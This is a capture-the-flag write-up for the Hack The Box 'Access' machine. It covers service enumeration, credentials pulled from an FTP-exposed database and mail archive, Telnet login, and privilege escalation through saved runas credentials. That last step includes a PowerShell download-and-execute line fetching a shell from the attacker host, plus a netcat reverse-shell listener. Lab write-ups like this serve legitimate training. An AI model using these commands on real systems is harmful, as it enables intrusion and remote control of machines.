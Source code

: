 # HTB: Access

## Engagement Overview

**Target:** Access (HTB)  
**Box IP:** 10.10.10.98  
**Date:** 2025-09-16  
**Attacker Host:** 10.10.14.3  

---

### Methodology

- Enumerate services and discover exposed files.  
- Extract credentials from backups/mail archives.  
- Gain initial foothold via Telnet.  
- Escalate to Administrator using misconfigured runas/savecred.  
- Capture `user.txt` and `root.txt`.  

---

## Service Enumeration

### Nmap

```bash
sudo nmap -sC -sV -T5 -oN logs/nmap 10.10.10.98
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
23/tcp open  telnet  Microsoft Telnet
80/tcp open  http    Microsoft IIS httpd 7.5
```

### Web/FTP Discovery

- FTP anonymous access allowed.  
- Retrieved files:  
  - `Backups/backup.mdb`  
  - `Engineer/Access Control.zip` → contained `Access Control.pst`.  

```bash
# Mirror
wget -m ftp://anonymous:anonymous@10.10.10.98
```

---

## Initial Access

### Credential Extraction

From `backup.mdb` (auth_user table):  

- `engineer:access4u@security`  

```bash
# quick string search
strings 10.10.10.98/Backups/backup.mdb | grep -C3 access

admin
engineer
access4u@security

# Alternate method mdbtools (export auth_user)
mdb-tables backup.mdb

# Clean up output to see tables
mdb-tables backup.mdb | tr ' ' '\n' | grep . | while read table; do lines=$(mdb-export backup.mdb $table | wc -l); if [ $lines -gt 1 ]; then echo "$table: $lines"; fi; done
acc_timeseg: 2

# List table data
mdb-export backup.mdb auth_user
```

Password unlocked `Access Control.zip` → contained `Access Control.pst`.  
From PST (email):  

- `security:4Cc3ssC0ntr0ller`  

```bash
# PST -> MBOX
7z x "Access Control.zip"
readpst "Access Control.pst"
less "Access Control.mbox"
```

### Telnet Login

```bash
telnet 10.10.10.98
# login: security
# password: 4Cc3ssC0ntr0ller
```

```cmd
C:\Users\security> whoami
access\security

C:\Users\security> type Desktop\user.txt
cb237095f1d0b24079794fa1a2932c1b
```

---

## Privilege Escalation

### Suspicious LNK

Found `ZKAccess3.5 Security System.lnk` referencing:  

```cmd
runas.exe /user:ACCESS\Administrator /savecred "C:\ZKTeco\ZKAccess3.5\Access.exe"
```

### Abusing Saved Credentials

Hosted Nishang PowerShell one-liner on attacker machine and executed via runas:  

```powershell
# attacker
nc -lnvp 443

# target
runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.3/shell.ps1')"
```

Reverse shell established as Administrator:  

```cmd
PS C:\Users\Administrator\Desktop> type root.txt
bc97e19e6897f692e5272f63e763a3a8
```

---

## House Cleaning

- Removed hosted `shell.ps1` from attacker box.  
- No persistence or artifacts left on target.  

---

## Tools Utilized

- `nmap`, `gobuster`  
- `strings`, `mdbtools`, `readpst`  
- `telnet`, `nc`  
- `runas`, `powershell` (Nishang one-liner)  

---

## Key Takeaways

- Backup and PST files exposed sensitive credentials.  
- Weak service configuration (Telnet, anonymous FTP) enabled easy access.  
- Misconfigured `runas /savecred` allowed privilege escalation.  
- Defensive measures: restrict backup access, remove Telnet, audit saved credentials, monitor PowerShell downloads.  
